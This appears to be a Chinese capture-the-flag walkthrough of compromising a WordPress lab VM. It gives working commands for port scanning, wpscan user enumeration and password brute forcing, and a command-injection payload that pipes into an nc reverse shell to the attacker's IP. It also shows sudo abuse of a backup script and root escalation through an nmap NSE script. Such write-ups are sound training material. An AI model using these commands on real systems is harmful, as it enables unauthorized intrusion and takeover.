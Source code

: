 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.14


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.14
```

![image-20220112092802044.png](_img\06-靶场实践/1652256592650-4f579673-f9c7-4b7e-9158-3a4a9339c4bf.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

在浏览器访问HTTP服务发现是使用wordpress搭建的站点，在首页显示`欢迎来到 Wordy，它是 WordPress 插件和安全领域的世界领导者`。

![image-20220112093308388.png](_img\06-靶场实践/1652256596173-e1a6d00d-8a99-46b1-8775-a3dfa06af1fb.png)

使用wpscan扫描

```
wpscan --url http://wordy/ -e u
```

![image-20220112094601481.png](_img\06-靶场实践/1652256599929-df786d27-d790-4363-a22b-a4fdee10048d.png)

扫描出一些用户名

将扫描出来的用户名保存到username.txt中，把kali中的rockyou.txt.gz字典的k01内容提取出来作为密码字典进行爆破

```
zcat /usr/share/wordlists/rockyou.txt.gz | grep k01 > /root/password.txt
```

```
wpscan --url http://wordy/ -U username.txt -P password.txt
```

![image-20220112095747521.png](_img\06-靶场实践/1652256604693-fe7bee53-bf22-4a14-9a2f-c1a39a1979d2.png)

使用爆破出来的账户登录后台http://wordy/wp-login.php

![image-20220112100034746.png](_img\06-靶场实践/1652256608224-c5efb259-0e0e-49b0-87e9-d60ed1bfa780.png)

在前面的信息收集中在站点的主页面提到了workpress插件，查看插件发现存在命令执行漏洞

这个地方让我想到了DVWA靶场的命令执行漏洞

![image-20220112101939341.png](_img\06-靶场实践/1652256611229-17f5ccc4-8712-4f8c-b7da-ffc09d11056c.png)


## 漏洞利用

存在命令执行漏洞那么我们就可以利用nc来反弹shell

创建监听

```
nc -vnlp 4444
```

执行反弹命令

```
192.168|nc 192.168.1.28 4444 -e /bin/bash
```

发现限制里输入的字符数，在前端进行修改

![image-20220112102257062.png](_img\06-靶场实践/1652256615571-e0efff38-c95b-447d-bfb7-55fadf48ac78.png)

再次执行，成功反弹shell

![image-20220112102558566.png](_img\06-靶场实践/1652256618552-bd7bcc55-ccd4-41b8-b9d5-6ca497afa95c.png)


## 提权

查看系统版本，没什么用

```
cat /proc/version
cat /etc/issue
```

![image-20220112103049949.png](_img\06-靶场实践/1652256622515-219bee43-6aa6-42b7-b79e-0dd1022b8b42.png)

在/home目录下查看到四个用户，依次查看在mark目录下的stuff目录下发现things-to-do.txt文件，查看得到账户`graham - GSo7isUM1D4`

![image-20220112103926720.png](_img\06-靶场实践/1652256625707-4def4a96-bd53-47a4-9509-1afc83e48999.png)

切换用户并查看graham所拥有的权限

![image-20220112104100137.png](_img\06-靶场实践/1652256628296-b31868ea-6800-4965-9441-157bea7e654a.png)

可以看到我们可以以jens用户执行jens目录下的脚本

在backups.sh中写入`/bin/bash`并以jens用户来执行

![image-20220112105446816.png](_img\06-靶场实践/1652256631513-79af65fc-ac15-4d5b-b899-e075e81879dd.png)

我们成功切换到jens用户

查看jens用户所拥有的权限

![image-20220112105600146.png](_img\06-靶场实践/1652256634522-590fbe18-cbc9-4796-ac27-4f3bd8ae1732.png)

发现我们可以以root用户权限来执行nmap，那么我们可以创建一个nmap脚本文件，然后使用nmap来执行恶意脚本文件来进行提权。

创建恶意脚本文件

```
echo 'os.execute("/bin/bash")' > XMTX.nse
```

![image-20220112110056438.png](_img\06-靶场实践/1652256638254-a8d87c4c-747e-4a30-88ab-ade97839775a.png)

使用nmap执行恶意脚本

```
sudo nmap --script=XMTX.nse
```

![image-20220112110135074.png](_img\06-靶场实践/1652256642291-5dbf3932-5921-4f66-8474-556aacda2fc2.png)

成功得到root权限


## final-flag

在root根目录下找到final-flag

![image-20220112110259840.png](_img\06-靶场实践/1652256646951-6a6bbccc-e678-48f1-98db-4b7874e9a2af.png)
